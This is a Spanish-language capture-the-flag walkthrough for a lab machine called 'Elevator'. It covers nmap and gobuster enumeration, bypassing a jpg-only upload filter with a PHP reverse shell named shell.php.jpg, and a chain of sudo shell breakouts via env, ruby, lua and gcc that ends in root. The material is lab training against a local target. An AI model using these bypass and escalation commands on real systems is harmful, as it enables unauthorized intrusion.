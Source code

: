 
# Elevator
![image](https://github.com/user-attachments/assets/94e48dad-afd1-4617-9218-7f59701415d5)

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
sudo nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
```
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```
Como tenemos abierto el puerto 80, vamos a visitar la web a ver si encontramos algo que nos pueda ayudar pero no hay nada relevante así que hacemos fuzzing para encontrar nuevas rutas.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php
```
![image](https://github.com/user-attachments/assets/bd15383a-3374-4318-b93d-c976cb398283)

Como no encontramos nada, seguimos buscando en directorios, en este caso vamos al directorio **http://172.17.0.2/themes/**

![image](https://github.com/user-attachments/assets/0f497aa0-9c13-4687-a06d-44425ca59927)


## Explotación.

Encontramos una ruta **http://172.17.0.2/themes/archivo.html**, y encontramos una página para subir archivos. Nos indica que únicamente se pueden subir archivos *jpg*.

![image](https://github.com/user-attachments/assets/ce863652-ac2a-44dd-be7f-0c0b560d18ee)

Para saltarnos esa comprobación podemos subir una shell en php que tenga como extensión jpg. Es decir, sería *shell.php.jpg* Para ello vamos a [GitHub](https://github.com/pentestmonkey/php-reverse-shell) y utilizamos su reverse shell en php.

![image](https://github.com/user-attachments/assets/83c89a3b-94f7-4f55-92be-e6435c594ea0)

![image](https://github.com/user-attachments/assets/e93f87e5-9673-431f-9025-cc0d0ec15b12)

Nos ponemos en escucha en el puerto que hayamos configurado, en mi caso el 4444 y vamos a la ruta que nos muestra.

![image](https://github.com/user-attachments/assets/69e9ddc2-8b9c-42dc-b3c1-9b8dfd706ead)

## Escaladad de privilegios.

Ahora comprobamos los permisos sudo que tenemos y vemos que podemos ejecutar como **daphne** */usr/bin/evn*

![image](https://github.com/user-attachments/assets/1719d5ac-1ced-4f05-a376-08cfbeb15164)

```bash
sudo -u daphne /usr/bin/env /bin/sh
```
![image](https://github.com/user-attachments/assets/c6d6a982-e070-48df-b936-9e4bf483951d)

![image](https://github.com/user-attachments/assets/5313f360-4a38-4787-805b-fdc328e45ac9)

```bash
sudo -u vilma /usr/bin/ash
```
![image](https://github.com/user-attachments/assets/595b5be4-d24b-447c-9cc5-f51cca2e2665)

```bash
sudo -u shaggy /usr/bin/ruby -e 'exec "/bin/sh"'
```
![image](https://github.com/user-attachments/assets/1dee18d8-7bc6-4699-8b61-8f53a11179be)

```bash
sudo -u fred /usr/bin/lua -e 'os.execute("/bin/sh")'
```
![image](https://github.com/user-attachments/assets/07f5fb76-616f-49c3-83f0-9be336555625)

```bash
sudo -u scooby /usr/bin/gcc -wrapper /bin/sh,-s .
```
![image](https://github.com/user-attachments/assets/9f81a2e6-401e-4e9c-9732-cfcc1fd0bdfe)

```bash
sudo -u root /usr/bin/sudo /bin/sh
```

![image](https://github.com/user-attachments/assets/afcb909f-242b-42e7-a958-92d505d5c7b8)

Ya tenemos acceso como **root**.













